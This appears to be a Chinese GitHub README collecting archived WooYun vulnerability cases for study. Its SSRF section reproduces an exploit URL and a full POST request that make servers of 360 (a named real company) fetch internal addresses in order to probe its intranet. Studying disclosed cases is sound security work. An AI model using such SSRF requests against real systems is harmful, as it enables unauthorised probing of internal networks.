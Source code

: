 # vulnerability-review
寻找公开漏洞案例进行复盘学习。
在模仿中学习挖洞姿势！

漏洞来源：
```
wooyun漏洞库
```
## 漏洞列表
### SSRF(服务器端请求伪造)
##### [wooyun-2016-0227704-当当网某站点SSRF可以遍历本地文件](https://wooyun.laolisafe.com/bug_detail.php?wybug_id=wooyun-2016-0227704) √
##### [wooyun-2014-083592-利用两个鸡肋SSRF探测360内网](https://wooyun.laolisafe.com/bug_detail.php?wybug_id=wooyun-2014-083592)
详细说明：
两个SSRF都比较鸡肋，但仍值得一试。
第一个SSRF位于：
```
http://te.tuan.360.cn/checkapi_ajax.html?apiurl=http://soft.corp.qihoo.net
```
只能返回HTTP Status。可以探测指定的端口是否开放web服务（如80,8360,8080，8000），以及相应的资源是否存在。
第二个SSRF位于diy主题：
```
POST /diy/sl/themes/getpreview HTTP/1.1
Content-Length: 862
Content-Type: application/x-www-form-urlencoded
Cookie: sc=52cfa2a2123cceed13f31e75.THEME.1
Host: meihua.360.cn
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/28.0.1500.63 Safari/537.36
Accept: */*
data=%7b%22banner%22:%7b%22url%22:%22http://img1.mobile.360.cn/c0/cdn/baibian/themeResource/image/banner/2655e631-ed27-4d1e-9e14-76a91c50b528.png%22%7d%2c%22default_lock_wallpaper%22:%7b%22url%22:%22http:%5c/%5c/220.181.156.221:8360/favicon.ico%22%7d%2c%22incharge%22:%7b%22color%22:%22FFFFFF%22%2c%22size%22:18%7d%2c%22status_bar%22:%7b%22url%22:%22http://p2.qhimg.com/t01e34730d2f2f6a5be.png%22%7d%2c%22txt_clock%22:%7b%22color%22:%22FFFFFF%22%2c%22size%22:64%7d%2c%22txt_date%22:%7b%22color%22:%22FFFFFF%22%2c%22size%22:20%7d%2c%22unlock_button%22:%7b%22url%22:%22http://img1.mobile.360.cn/c0/cdn/baibian/themeResource/image/unlock_button/837bad4f-ed18-41fd-b2f3-4faa1b5fa9fd.png%22%7d%2c%22unlock_button_selected%22:%7b%22url%22:%22http://img1.mobile.360.cn/c0/cdn/baibian/themeResource/image/unlock_button_selected/c2ea4be6-c76f-4cfb-9573-a5c3e7617742.png%22%7d%7d
```
default_lock_wallpaper.url等多个参数均可以构造。可以把我们指定URL的图片合成到一张新图片上。

### CSRF(跨站请求伪造)

### Refected XSS(反射型XSS)

### Stored XSS(存储型XSS)


